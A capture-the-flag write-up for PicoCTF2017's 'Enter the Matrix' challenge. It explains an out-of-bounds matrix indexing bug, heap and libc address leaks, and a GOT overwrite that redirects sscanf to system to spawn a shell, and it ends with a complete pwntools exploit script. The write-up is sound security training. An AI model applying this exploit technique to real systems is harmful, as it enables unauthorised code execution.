


# Enter the Matrix

This is a challenge from [PicoCTF2017](https://2017game.picoctf.com/), which attests to be geared towards middle and high school students but which is great practice nonetheless, especially above Level 2. This challenge is a binary exploit problem from Level 3, which means the first two "master challenges" must be completed in order for the problem to be unlocked.


### Hints for people who are working on this challenge

In case you do not wish to get all the answers from this writeup, here are some hints:


1. Fixing the bug in `handle_print` can help you find the exploitable bug.
2. Recall that you can get the libc version and dynamic linker version (if you decide you need it) by ssh'ing into the server (see the `keyz` problem in Level 1).
3. You can solve this problem without touching the stack.
4. The next hint is a bigger one, so stop scrolling down and think some more first.
5. Writing to somewhere in the heap lets you write to an arbitrary address.


### Tools

For this project, I worked with [pwndbg](https://github.com/pwndbg/pwndbg) and [angelheap](https://github.com/scwuaptx/Pwngdb/tree/master/angelheap). **pwndbg** is a useful interface that prints the stack, register values, etc. when debugging with `gdb`. **angelheap** is Python code that was originally written for a different `gdb` add-on known as [**pwngdb**](https://github.com/scwuaptx/Pwngdb/), which to my subjective understanding is less useful than **pwndbg**. **angelheap** has a useful command called `parseheap` which lets a user visualize the heap. Implementation of `parseheap` unfortunately is based on parsing the output of `gdb` and expecting certain colors associated with specific outputs, colors specified by `pwngdb` and not `pwndbg`. After I made some modifications to the **angelheap** code to parse the **pwndbg** color scheme, however, `parseheap` worked just fine with **pwndbg**.

### Recon

Running `file` on the `matrix` binary file yields the following:

`matrix: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=abff3e497f8fc6dd76f1c65565694000e473e06c, not stripped`

A read through the C code (see attached) shows that the user can create and delete matrices with up to 10,000 rows and 10,000 columns each, list all the available matrices, print them, and set specific rows and columns to specific values:

    Welcome to the Matrix!
    Available operations:
    create <rows> <cols>
    destroy <id>
    list
    print <id>
    get <id> <row> <col>
    set <id> <row> <col> <value>
    help
    quit

At first I looked for obvious bugs such as [Use after Free](https://sploitfun.wordpress.com/2015/06/16/use-after-free/) or [double free](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/), but did not see them. Deleting a matrix twice is not achievable without already having obtained the ability to write to an arbitrary address. The hints for the problem recommend carefully examining how the application is indexing matrices, and considering what portions of the code can be overwritten.

I did not catch the bug referenced by that hint during a first squint at the code, so I thought it would be useful to explain how I did find it. One bug in the code is obvious:

    Enter command: create 1 1
    Successfully created matrix #0.
    Enter command: print 0
    ERROR: 'print 0
    ' is not a valid command.

The bug is in matrix.c:150:

    } else if(2 == sscanf(cmdbuf, "print %d", &id)) {
    handle_print(id);

Setting the expected return value for `sscanf` in this case to 1 fixes the bug, so I do so and recompile the project. Then I tried creating a simple matrix with three rows and one column, setting its values with `set`, and then displaying its contents both with calls to `get` and `print`. `set 0 2 0 5.0` followed by `get 0 2 0` returns 5.0 as expected, but `print 0` displays a zero in row 3, column 1. Looking further into the source of this discrepancy, I found the bug: `handle_set` contains the line `m->data[r * m->nrows + c] = v;` and `handle_get` has a similar bug: `INFO("Matrix[%d][%d] = %.9g", r, c, m->data[r * m->nrows + c]);`. In both cases, the correct index to `data` should be `data[r*m->ncols + c]`. The bug allows a user to read and write beyond a matrix's boundary if the matrix has more rows than columns.

### Reading and writing arbitrary values as floats

Each time `set` and `get` are used, the inputs are interpreted by the `matrix` program as floats. Accordingly, any value which is to be used must be expressed as a float string. The following two Python functions handle these data transformations:

    def float_to_hex(f):
	    return hex(struct.unpack('<I', struct.pack('<f', f))[0])

    def hex_to_float_string(h):
        return str(struct.unpack('<f',struct.pack('<I',h))[0])

Because this is a 32-bit application, the size of a float is also the size of an address, quite convenient. Were this a 64-bit application, arbitrary overwrites would require two writes, so the first write would have to not break the program logic before the second were achieved. (In practice, most of the time the leading 32 bits of an address are often the same for two given addresses, so a single 32-bit write is often sufficient to change a pointer to a desired value even in 64-bit land.)

### Exploitation

My first consideration was that potentially the library is vulnerable to the [unlink](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/) vulnerability in `malloc.c`. The libc version used to run the code on the server can be obtained by `ssh`'ing into the server (see the `keyz` problem in Level 1 of PicoCTF2017). A check of the source code for `malloc.c` in libc 2.19 suggests that it is not vulnerable to the unlink exploit, and I double-checked by pulling the actual `libc.so.6` file from the server, opening it up in `IDA Pro`, and finding the error message in `malloc.c` associated with the test that prevents exploitation of the unlink vulnerability.

Next, I thought about overwriting a function pointer in the Global Offset Table in order to return to libc and call `system`. Because Address Space Layout Randomization (ASLR) is enabled for this application, the heap and libc will both appear in different locations with each execution of the code. Thus, I needed to leak a heap address and libc address. That is straightforward, however: a libc address can be obtained by freeing a block that is larger than the largest fastbin size. The `fwd` and `bk` pointers for the first block freed into this manner will both point into libc, to the main arena. Next, creating each matrix actually malloc's two blocks of memory: the first contains the number of rows and columns for the matrix and a pointer to the data for the matrix, and the second contains said data. Thus, retrieving the `data` pointer with the right `get` command will retrieve a heap address.

My next thought was to directly write to the GOT. The number of rows and columns in a matrix are not allowed to be negative (a check is done during the `handle_create` function), but it is possible to overwrite `nrows` and `ncols` for another matrix using an appropriately-crafted call to `set` for a matrix allocated earlier in the stack. By creating a few matrices of various sizes and using the `parseheap` function of `angelheap` to view the heap, I derived the formula used by this version of `malloc` to allocate memory for the blocks containing the contents of `data` for a matrix:

`bytes allocated = 4(R*C + 1 + (2 - (R*C + 1))%2),`

where `R` denotes the number of rows and `C` denotes the number of columns in the matrix. 16 bytes are always allocated for the block containing `nrows`, `ncols` and the pointer to `data`. Now the only float value that translated to a large negative decimal number is `-nan`, which translates to -4,194,304, so I set the `nrows` position for a matrix to `-nan` and the `ncols` position to 4,194,304. That would let me write to the Global Offset Table from the heap, even though the heap appears later in memory! Sadly, I was so excited by this possibility that I missed a second check in the code, in `handle_set`:

    if(r < 0 || r >= m->nrows)
        FATAL("Can't set row %d", r);

Too bad! Any attempt to set a row will fail when `m->nrows` has been manipulated to be a large negative number.

Okay, back to the drawing board. The stack comes later in memory than the heap, how about overwriting the return address for `handle_set` to point to `system`? We'd need to leak a stack address (due to ASLR) and we don't have easy access to one. Looking into libc around the address associated with the pointer into the arena, I found an entry labeled `program_invocation_short_name` that does indeed point to the stack, although it points to the environment and not the frame. It would be possible, however, with many calls to `handle_get`, to loop through multiple stack addresses until I encounter the string passed in as a parameter to `handle_get`, and thus find the return address for `handle_get`. At that point I would probably be fairly close to the return address for `handle_set`, so with a little more experimentation I could probably overwrite the return address for `handle_set` with a different return value, and then either directly call `system` or use ROP. But that is pretty messy...it doesn't sound like a Level 3 PicoCTF problem.

I was missing something, so I looked for other discussions of the problem that did not give away the solution. There is a small hint at the top of a write-up by [A Byte Off](http://byte-off.com/golang/picoctf-enter-the-matrix-writeup/):

> Free is passed a pointer to data that you control.

With that, I noticed that actually the `data` pointer in a block allocated in the heap could be replaced with a pointer to an address in the Global Offset Table! That's the trick for this problem. Then, simply calling `set [exploited_matrix_index] 0 0 [float]`, where `[exploited_matrix_index]` denotes the matrix with the overwritten data pointer and `[float]` denotes the address of `system`, will call `system` instead of the original `libc` function referenced at that location in the Global Offset Table. Now we just need to either place a pointer to `"/bin/sh"` into `%eax` right as `system` gets called (difficult), or pass `"/bin/sh"` in as a parameter to the original function that we replaced with the pointer to `system`. I decided to use `sscanf`, which gets called from `handle_command`. Thus, after overwriting the GOT entry for `sscanf`, we simply type `"/bin/sh"` in as a "command", and `system("/bin/sh")` gets called! Nice!!

At that point, I was able to get an exploit working locally, but not on the server. The reason was that the address in the arena that I was using for the `libc` address comes at the very end of the `libc` binary, and I was not running the exact same `libc` version locally that is on the server. So, if I were to simply get the offset to `system` from a call on the server to `readelf -s /lib32/libc.so.6 | grep system`, it would not be enough information. A solution is to call `ldd /lib32/libc.so.6` on the server, getting the interpreter running this version of libc, and then download both the interpreter and `libc` to get a local version of the `matrix` binary running with both the server's interpreter and the server's `libc` in memory. This required two steps for me:

1. Use the [patchelf](https://nixos.org/patchelf.html) tool to modify the `matrix` binary and specify a path to the new dynamic linker copied from the server, using the `--set-interpreter` feature for `patchelf`.
2. Use `LD_PRELOAD` to specify the libc version to reference when spinning up the `matrix` process with `pwntools`:


```
    p=process('./matrix/matrix_copy',
        env={"LD_PRELOAD" : "./matrix/libc.so.6"})`
```

At that point, I can determine the exact distance from the libc address for the main arena to the base of libc through a call to `vmmap` in `pwndbg`:



That offset is now the same in my local process as it is on the server. Running the exploit now gives me shell on the server:



(The actual flag is a hash that is different for every user.)

The final exploit is as follows:

```
    from pwn import *
    from os import *
    import struct

    # References:
    # https://stackoverflow.com/questions/23624212/how-to-convert-a-float-into-hex
    # https://stackoverflow.com/questions/6543847/setting-ld-library-path-from-inside-python

    def float_to_hex(f):
    return hex(struct.unpack('<I', struct.pack('<f', f))[0])

    def hex_to_float_string(h):
    return str(struct.unpack('<f',struct.pack('<I',h))[0])

    def get_hex_from_output(p):
    p.recvuntil('= ')
    float_as_string = float(p.recvline())
    return float_to_hex(float_as_string)

    # Fill up a matrix with values, only used during initial recon
    def populate_matrix(id, nrows, ncols):
    current_f = 0.0
    for i in range(nrows):
    for j in range(ncols):
      cmd = 'set ' + str(id) + ' ' + str(i) + ' ' + str(j) + ' ' + str(current_f) + '\n'
      print('cmd = ' + cmd)
      p.send(cmd)
      current_f += 1.0
      p.recvuntil('Enter command:')

    #p = process('/home/ctf/Documents/PicoCTF2017/Exploit3/matrix/matrix_copy',
    #            env={"LD_PRELOAD" : "/home/ctf/Documents/PicoCTF2017/Exploit3/matrix/libc.so.6"})
    p = process('nc shell2017.picoctf.com 19369', shell=True)


    p.recvuntil('Enter command:')

    p.send('create 7 5\n')
    p.recvuntil('Enter command:')

    p.send('create 5 2\n')
    p.recvuntil('Enter command:')

    # Leak heap address
    p.send('get 0 5 3\n')
    heap_addr = get_hex_from_output(p)
    HEAP_BASE = int(heap_addr,16) - 0x10c0
    p.recvuntil('Enter command:')

    # Leak libc address
    p.send('create 40 1\n')       # Matrix has to be larger than fastbin size
    p.recvuntil('Enter command:')

    p.send('create 10 1\n')
    p.recvuntil('Enter command:')

    p.send('destroy 2\n')         # Generates pointers to libc in heap
    p.recvuntil('Enter command:')

    p.send('get 1 3 1\n')
    arena_addr = get_hex_from_output(p)
    p.recvuntil('Enter command:')

    LIBC_BASE = int(arena_addr,16) - (0x450 + 0x2000 + 0x1a7000)
    LIBC_SYSTEM_OFFSET = 0x3e3e0 # same locally as on server

    SYSTEM_ADDRESS = LIBC_BASE + LIBC_SYSTEM_OFFSET
    SSCANF_ADDR = 0x0804a12c

    log.info("heap address = " + heap_addr)
    log.info("heap_base = " + hex(HEAP_BASE))
    log.info("arena address = " + arena_addr)
    log.info("LIBC_base = " + hex(LIBC_BASE))
    log.info("system address = " + hex(SYSTEM_ADDRESS))

    # Overwrite pointer to data
    p.send('set 0 5 3 ' + hex_to_float_string(SSCANF_ADDR) + '\n')
    p.recvuntil('Enter command:')

    # Overwrite GOT
    p.send('set 1 0 0 ' + hex_to_float_string(SYSTEM_ADDRESS) + '\n')
    p.recvuntil('Enter command:')

    p.send('/bin/sh\n')

    p.interactive()
```

### Comparison to other approaches

Other writeups read a `libc` address directly from the GOT table. In leaking a `libc` address close to that of the `system` function, it should be possible to avoid having to actually load the server's `libc` version into a running process. I found the practice associated with doing so to be useful training, however, for future CTFs.
